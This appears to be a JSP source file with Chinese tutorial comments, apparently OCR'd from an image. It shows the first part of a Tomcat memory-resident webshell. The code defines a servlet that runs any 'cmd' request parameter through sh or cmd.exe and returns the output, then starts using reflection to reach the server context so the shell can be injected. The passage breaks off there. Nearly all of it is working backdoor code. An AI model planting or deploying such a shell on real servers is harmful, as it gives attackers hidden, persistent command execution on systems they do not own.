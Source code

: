 ```jsp
<%!
  // 定义一个简单的 Servlet 用于执行系统命令，Servlet没什么可说的，和正常的接口没什么区别，主要是看一下如何动态获取context，并且往context里边写入Servlet的
  Servlet servlet = new Servlet() {
    @Override
    public void init(ServletConfig servletConfig) throws ServletException {
      // 初始化逻辑（可为空）
    }

    @Override
    public ServletConfig getServletConfig() {
      return null; // 不需要配置
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
      // 获取传入的命令参数
      String cmd = servletRequest.getParameter("cmd");
      if (cmd == null || cmd.trim().isEmpty()) {
        servletResponse.getWriter().println("No command specified.");
        return;
      }
      // 判断windows类型并调用cmd指令
      boolean isLinux = !System.getProperty("os.name").toLowerCase().contains("win");
      String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
      String output = executeCommand(cmds);
      servletResponse.setContentType("text/plain");
      servletResponse.getWriter().println(output);
    }

    private String executeCommand(String[] cmds) {
      StringBuilder output = new StringBuilder();
      try (InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
           Scanner scanner = new Scanner(in).useDelimiter("\\a")) {
        if (scanner.hasNext()) {
          output.append(scanner.next());
        }
      } catch (IOException e) {
        output.append("Error executing command: ").append(e.getMessage());
      }
      return output.toString();
    }

    @Override
    public String getServletInfo() {
      return null;
    }

    @Override
    public void destroy() {
      // 销毁逻辑（可为空）
    }
  };
%>

<%
    // 使用反射获取 StandardContext 上下文
	// 在 JSP 中，request 是一个隐式对象，它是由 Servlet 容器（如 Tomcat）自动提供给每个请求的。request 对象是 HttpServletRequest 类型的实例，包含了与 HTTP 请求相关的信息，比如请求参数、请求头、请求方法等。你可以直接在 JSP 中使用它来获取这些信息。
	// HttpServletRequest继承了ServletRequest，所以可以取到ServletRequest.request这个字段
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
	// Request是一个继承了HttpServletRequest的对象，所以可以通过这种方式来拿到Request对象
```